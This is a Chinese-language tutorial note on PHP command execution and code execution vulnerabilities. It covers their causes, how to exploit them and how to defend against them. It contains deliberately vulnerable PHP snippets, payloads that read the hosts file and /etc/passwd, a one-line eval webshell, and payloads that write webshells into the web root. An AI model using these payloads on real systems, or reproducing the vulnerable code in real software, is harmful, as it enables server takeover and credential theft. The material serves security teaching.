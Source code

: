 # 命令执行漏洞
## 漏洞原理
代码层过滤不严，应用程序直接或间接使用了动态执行命令的危险函数，并且这个函数的运行参数是可控的。</br>
涉及到的函数：system()、exec()、shell_exec()、passthru()、popen()、反引号

## 命令执行漏洞的利用
（1）system()函数典型代码，及利用</br>
system.php文件代码内容：
```php
<?php
if(isset($_GET[‘cmd’])){
         echo “<pre>”;
         system($_GET[‘cmd’]);
}
?>
```
利用方式：提交URL，并且构造想输入的命令到参数里面。</br>
URL：http://192.168.11.11/system.php?cmd=ipconfig
（2）exec()函数典型代码及利用
exec.php文件代码内容：
```php
<?php
if(isset($_GET[‘cmd’])){
         echo “<pre>”;
         print exec($_GET[‘cmd’]);
}
?>
```
利用方式：提交URL，并且构造想输入的命令到参数里面。</br>
URL：http://192.168.11.11/exec.php?cmd=whoami
（3）查看系统文件
payload：
```
?cmd=type c:\windows\system32\drivers\etc\hosts      (查看系统hosts文件)
```
（4）写文件
payload：
```
?cmd=echo “<?php phpinfo();?>” > c:\phpStudy\WWW\Command\shell.php
```
页面如果没有报错，说明写文件成功；再去访问shell.php文件，另外同样可以写入一句话木马。</br>
（5）其他命令执行的危险函数利用方式都差不多，均是利用参数过滤不严格，构造可控的命令内容到危险函数中去执行，最后达到攻击目的。</br>
（6）Windows和Linux中多命令执行的语法如下：</br>
![image](https://github.com/n4ttt/Sec-Note/assets/32692640/ee0ea053-5721-4d62-ba39-dc9e2d448c6a)

## 命令执行漏洞的危害
（1）继承web服务器程序权限（web用户权限），去执行系统命令</br>
（2）继承web服务器权限，读写文件</br>
（3）反弹shell</br>
（4）控制整个网站</br>
（5）控制整个服务器

## 命令执行漏洞的防御
（1）尽量少使用执行命令的函数或者禁用disable_functions；</br>
（2）在进入执行命令的函数之前，对参数进行过滤，对敏感字符进行转义；</br>
（3）参数值尽量使用引号包括，并且在拼接前调用addslashes进行转义。

# 代码执行漏洞
## 漏洞原理
应用程序在调用一些能够将字符串转换为代码的函数（如PHP中的eval）时，没有考虑用户是否控制这个字符串，将造成代码执行漏洞。</br>
大部分都是根据源代码判断代码执行漏洞。</br>
代码执行相关危险函数：</br>
（1）PHP: eval、assert、preg_replace()、+/e模式（PHP版本<5.5.0）</br>
（2）Javascript: eval</br>
（3）Vbscript：Execute、Eval</br>
（4）Python: exec</br>
（5）Java: Java中没有php中eval函数这种直接可以将字符串转化为代码执行的函数，但是有反射机制，并且有各种基于反射机制的表达式引擎，如：OGNL、SpEL、MVEL等，这些都能造成代码执行漏洞。

## 代码执行漏洞的利用
（1）一句话木马
```
${@eval($_POST[1])}
```
（2）获取当前工作路径
```
${exit(print(getcwd()))}
```
使用菜刀
（3）读文件
```
${exit(var_dump(file_get_contents($_POST[f])))}
f=/etc/passwd
```
使用post提交数值 f=/etc/passwd
（4）写webshell
```
${exit(var_dump(file_put_contents($_POST[f], $_POST[d])))}
f=1.php&d=1111111
```
同样使用post

## 代码执行漏洞的防御
（1）对于eval()函数一定要保证用户不能轻易接触eval参数或者用正则严格判断输入的数据格式。</br>
（2）对于字符串一定要使用单引号包裹可控代码，并且插入前进行addslashes</br>
（3）对于preg_replace放弃使用e修饰符.如果必须要用e修饰符，请保证第二个参数中，对于正则匹配出的对象，用单引号包裹。
